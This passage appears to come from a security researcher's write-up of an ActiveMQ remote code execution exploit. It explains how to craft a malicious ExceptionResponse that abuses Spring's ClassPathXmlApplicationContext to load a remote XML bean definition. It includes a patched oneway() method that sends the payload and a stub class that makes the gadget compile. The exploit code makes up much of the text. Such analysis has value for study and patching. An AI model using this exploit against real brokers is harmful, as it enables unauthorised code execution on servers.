 As this part is sorted, how to create a malicious `ExceptionResponse` object and what class name and message value should we put in the payload in order to achieve code execution?

As we observed in the `createThrowable()`, the class name (lets say `className`) and exception message value (lets say `msg`) would be used for creation of object which would be equivalent to running:
```java
className obj = new className(msg)
```

One thing to note here is that we can only initialize an object and pass one constructor value, but we can't call any function on that object. So what type of class name and message value should we use?  
Since ActiveMQ depends on spring, we can utilize an intersting gadget function [ClassPathXmlApplicationContext()](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/context/support/ClassPathXmlApplicationContext.html) which allows to load the definitions of the beans from a local/remote XML file. In simple words, It helps you in initializing an object with its state loaded from a remote XML file. Some examples of this function can be found [here](https://www.baeldung.com/spring-classpathxmlapplicationcontext).

So this is how our final patched version of `oneway()` would look like:
```java
public void oneway(Object command) throws IOException {
    checkStarted();
    System.out.println("[+] Inside patched oneway()");
    String VPS_URL = "http://127.0.0.1:8000/poc.xml";
    Throwable maliciousThrowableObject = new ClassPathXmlApplicationContext(VPS_URL);
    ExceptionResponse er = new ExceptionResponse(maliciousThrowableObject);
    wireFormat.marshal(er, dataOut);
    dataOut.flush();
}
```

Also, The `ClassPathXmlApplicationContext` needs to:
* be derived from `Throwable` as it is being assigned to an object of `Throwable` type.
* have a `getMessage()` function similar to `ExceptionResponse` class as it will be called during marshaling process.

To solve these problems, we patch the `ClassPathXmlApplicationContext()` by writing a custom implementation for it, fulfilling the needed conditions.

```java
package org.springframework.context.support;

public class ClassPathXmlApplicationContext extends Throwable {
	
	private String message;
	
	public ClassPathXmlApplicationContext(String xmlUrl)	{
		System.out.println("[+] Inside patched ClassPathXmlApplicationContext()");
		this.message = xmlUrl;
	}	

	public String getMessage()	{
		return this.message;
	}	
}
```
